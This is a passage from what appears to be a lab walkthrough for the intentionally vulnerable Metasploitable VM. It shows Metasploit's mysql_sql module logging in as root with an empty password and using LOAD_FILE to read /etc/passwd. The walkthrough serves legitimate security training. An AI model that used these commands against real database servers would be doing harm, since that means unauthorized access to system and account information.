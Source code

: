Looks like the root user on the database does not have a password. A bit of a lame challenge, but I'll take it!
Exploiting MySQL

Once you have credentials to connect to the MySQL server, you will want to pivot from recon mode to attack mode. This means you'll be using different exploits from metasploit. Whereas the initial exploit was a scanner, the subsequent exploits will be admin exploits.

There are two different ways to exploit the MySQL server to obtain system information and database information. These are covered below.
Obtain /etc/passwd from MySQL with Metasploit

The mysql_sql exploit can be used to connect to the remote database and scan the contents of the /etc/passwd file to get a list of users on the system.

This is done by executing SQL's load_file() function.

We'll be using an auxiliary/admin/ exploit in metasploit. This one is auxiliary/admin/mysql/mysql_sql:

msf auxiliary(mysql_login) > use auxiliary/admin/mysql/mysql_sql
msf auxiliary(mysql_sql) >

This one has fewer options:

msf auxiliary(mysql_sql) > show options

Module options (auxiliary/admin/mysql/mysql_sql):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   PASSWORD                    no        The password for the specified username
   RHOST                       yes       The target address
   RPORT     3306              yes       The target port
   SQL       select version()  yes       The SQL to execute.
   USERNAME                    no        The username to authenticate as

We'll use the root username and a blank password (as we found in the prior step). The Metasploitable virtualbox uses port 3306 for the sql server, so we'll leave rport alone. We will set RHOST to the IP address of the Metasploitable virtualbox. Finally, the SQL that we will execute is:

SELECT LOAD_FILE('/etc/passwd')

This can be set with MSF console like so:

msf auxiliary(mysql_sql) > set USERNAME root
USERNAME => root
msf auxiliary(mysql_sql) > set PASSWORD ''
PASSWORD =>
msf auxiliary(mysql_sql) > set RHOST 10.0.0.27
RHOST => 10.0.0.27
msf auxiliary(mysql_sql) > set RPORT 3306
RPORT => 3306
msf auxiliary(mysql_sql) > set SQL select load_file(\'/etc/passwd\')
SQL => select load_file('/etc/passwd')

Now execute:
